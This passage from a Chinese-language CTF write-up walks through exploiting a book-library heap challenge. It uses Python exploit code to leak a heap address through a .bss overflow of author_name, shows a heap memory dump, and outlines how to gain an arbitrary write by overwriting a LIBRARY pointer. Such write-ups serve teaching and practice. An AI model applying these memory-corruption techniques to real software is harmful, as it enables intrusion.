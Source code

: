 ### leak_heap

首先我们可以利用 `author_name` 在 `.bss` 区的溢出漏洞，打印 `GLOBAL_LIBRARY` 第一项的内容，而这一项是一个指向 `heap` 段的地址，通过这个方法我们可以泄露堆地址：

```python
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)
```

泄露之后发现这个泄露的堆地址是 `0x55C106CBC2B0`，然后我们动态调式查看堆地址的内容可以发现：

```
000055C106CBC260  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC270  4C 65 61 6B 48 65 61 70  00 00 00 00 00 00 00 00  LeakHeap........
000055C106CBC280  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC290  4C 65 61 6B 44 65 73 63  00 00 00 00 00 00 00 00  LeakDesc........
000055C106CBC2A0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00  ........1.......
000055C106CBC2B0  01 00 00 00 00 00 00 00  70 C2 CB 06 C1 55 00 00  ........p.......
000055C106CBC2C0  90 C2 CB 06 C1 55 00 00  18 00 00 00 00 00 00 00  ................
000055C106CBC2D0  00 00 00 00 00 00 00 00  31 FD 01 00 00 00 00 00  ........1.......
```

容易看出，上面截取的地址是三个连续的堆块。`book name`、`book description` 与 `book` 三个内存块。

### get_addr_write

下面我们尝试获取任意地址写。同样根据上面的思路：

1. 我们通过 `.bss` 段的溢出漏洞，可以覆盖 `LIBRARY[0]` 的最低字节，从而更改它指向的地址。
2. 为了控制新的 `LIBRARY[0]`，可以通过将 `description` 的大小控制大于 `0x100`，这样 `LIBRARY[0]` 的地址就一定会落在它的 `Description` 上；
3. 我们将新的 `LIBRARY[0]` 的 `Decription` 指向 `LIBRARY[1]`，于是我们就可以通过 `LIBRARY[0]` 指定目标地址，通过 `LIBRARY[1]` 修改地址的内容；

画图说明逻辑更加直观。比如，原本有一个正常的两个分配的书块：

```
                             Heap Segment           
                                                    
                         +--------------------+     
                    0x18 | book1 name buffer  |     
                         ----------------------     
                   0x100 | book1 desc buffer  |     
+-----------+            ----------------------     
| library[0]|----------->| book1 seqnumber    |     
-------------       0x20 | book1 name ptr     |     
| library[1]|-+          | book1 desc ptr     |     
------------- |          | book1 desc size    |     
|  ......   | |          +--------------------+     
+-----------+ |          +--------------------+     
              |     0x20 | book2 name buffer  |     
              |          ----------------------     
              |     0x20 | book2 desc buffer  |     
              |          ----------------------     
              +--------->| book2 seqnumber    |     
                    0x20 | book2 name ptr     |     
                         | book2 desc ptr     |     
                         | book2 desc size    |     
                         +--------------------+     
```
